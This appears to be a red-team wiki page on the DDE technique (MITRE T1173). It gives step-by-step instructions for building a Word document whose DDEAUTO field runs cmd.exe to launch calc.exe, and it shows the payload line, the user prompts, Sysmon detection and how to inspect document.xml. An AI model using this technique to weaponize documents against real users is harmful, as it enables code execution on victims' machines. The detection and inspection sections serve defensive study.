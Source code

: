 ```yaml
---
description: Dynamic Data Exchange
---
```


# T1173: DDE

## Weaponization

Open a new MS Word Document and insert a field:

![](../.gitbook/assets/dde-insert-field.png)

It will add an `!Unexpected End of Formula`to the document, that is expected. Right click it &gt; Toggle Field Codes:

![](../.gitbook/assets/dde-toggle-code.png)

Toggle Field Codes will give this:

![](../.gitbook/assets/dde-merge.png)

Replace `= \* MERGEFORMAT` with payload and save the doc:

```bash
DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe" 
```

to get this:

![](../.gitbook/assets/dde-payload.png)

{% file src="../.gitbook/assets/evil.docx" caption="DDE: evil.docx" %}

## Execution

Launch the evil .docx by double-clicking it and accepting the 2 prompts and watch the calc get spawned:

![](../.gitbook/assets/dde-prompt1.png)

![](../.gitbook/assets/dde-prompt2.png)

## Observations

![](../.gitbook/assets/dde-procexp.png)

Sysmon logs can help spot suspicious processes and/or network connections being initiated by Office applications:

![3rd and 4th columns respectively: PID and PPID](../.gitbook/assets/dde-sysmon.png)

## Inspection

How can we inspect .docx \(same for .xlsx\) files? Since they are essentially .zip archives, we can rename the .docx file to .zip and simply extract the archive for further inspection. 

The file we are interested in is the `document.xml` \(trimmed for brevity below\). Note how line 4 allows us inspecting the DDE payload:

{% code-tabs %}
{% code-tabs-item title="document.xml" %}
```markup
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<w:document xmlns:wpc="http://schemas.microsoft.com/office/word/2010/wordprocessingCanvas" xmlns:cx="http://schemas.microsoft.com/office/drawing/2014/chartex" xmlns:cx1="http://schemas.microsoft.com/office/drawing/2015/9/8/chartex" xmlns:mc="http://schemas.openxmlformats.org/markup-compatibility/2006" xmlns:o="urn:schemas-microsoft-com:office:office" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships" xmlns:m="http://schemas.openxmlformats.org/officeDocument/2006/math" xmlns:v="urn:schemas-microsoft-com:vml" xmlns:wp14="http://schemas.microsoft.com/office/word/2010/wordprocessingDrawing" xmlns:wp="http://schemas.openxmlformats.org/drawingml/2006/wordprocessingDrawing" xmlns:w10="urn:schemas-microsoft-com:office:word" xmlns:w="http://schemas.openxmlformats.org/wordprocessingml/2006/main" xmlns:w14="http://schemas.microsoft.com/office/word/2010/wordml" xmlns:w15="http://schemas.microsoft.com/office/word/2012/wordml" xmlns:w16se="http://schemas.microsoft.com/office/word/2015/wordml/symex" xmlns:wpg="http://schemas.microsoft.com/office/word/2010/wordprocessingGroup" xmlns:wpi="http://schemas.microsoft.com/office/word/2010/wordprocessingInk" xmlns:wne="http://schemas.microsoft.com/office/word/2006/wordml" xmlns:wps="http://schemas.microsoft.com/office/word/2010/wordprocessingShape" mc:Ignorable="w14 w15 w16se wp14">
<...snip...>
      <w:instrText>DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"</w:instrText>
<...snip...>
</w:document>

```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1173\",\"type\":\"link\",\"title\":\"Dynamic Data Exchange - ATT&CK for Enterprise\"}" %}





